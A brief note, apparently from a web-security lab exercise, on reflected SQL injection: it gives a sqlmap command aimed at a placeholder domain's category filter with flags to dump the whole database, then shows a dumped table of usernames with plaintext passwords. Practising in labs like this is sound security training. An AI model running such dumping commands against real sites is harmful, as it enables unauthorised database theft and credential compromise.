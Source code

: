 <h1>SQL Injection</h1>

<p>Reflected SQL Injection:</p>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | gk6dbw6k4sbpy1cn70jl |
| carlos        | m2e9fuameseab1y9eqhf |
| wiener        | niei989328wjslkbnhx6 |
+---------------+----------------------+
